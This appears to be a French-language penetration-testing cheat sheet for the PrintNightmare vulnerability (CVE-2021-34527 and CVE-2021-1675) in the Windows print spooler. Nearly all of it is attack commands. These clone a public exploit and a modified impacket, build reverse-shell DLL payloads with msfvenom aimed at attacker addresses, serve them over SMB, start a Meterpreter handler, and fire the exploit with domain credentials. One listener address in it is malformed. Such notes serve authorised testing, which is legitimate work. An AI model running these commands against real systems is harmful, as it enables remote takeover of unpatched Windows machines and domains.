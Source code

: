 ```yaml
---
public: true # set to true to make the article publishable
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) |
| Correctif fixant la vulnérabilité | CU 2021-06 et 2021-07 |

## Eléments nécessaires à l'exploitation

- Machine non patchée
- Spooler d'impression démarré (par défaut toutes les machines)


## Exploitation

### Installation de l'outil

```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git

## Nécessite une version modifiée d'impacket
pip3 uninstall impacket # désinstallation d'impacket
git clone https://github.com/cube0x0/impacket # installation de la version modifiée
cd impacket
python3 ./setup.py install
```

### Vérification de la disponibilité du spooler

```shell
rpcdump.py @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'
```

### Exécution de l'attaque

```shell
# Creation d'un reverse shell au format DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.172.16.5.225 LPORT=443 -f dll > shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=1234 -f dll > bad.dll
# Partage de la dll
sudo 
smbserver.py -smb2support CompData  . &

# Exécution du multi handler depuis msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACK_IP
set LPORT 1234
run

# Déclenchement de l'exploit
sudo python3 CVE-2021-1675.py domain.local/$AD_USER:$AD_PASSWORD@$TARGET_IP '\\ATTACK_IP\ShareName\bad.dll'
```

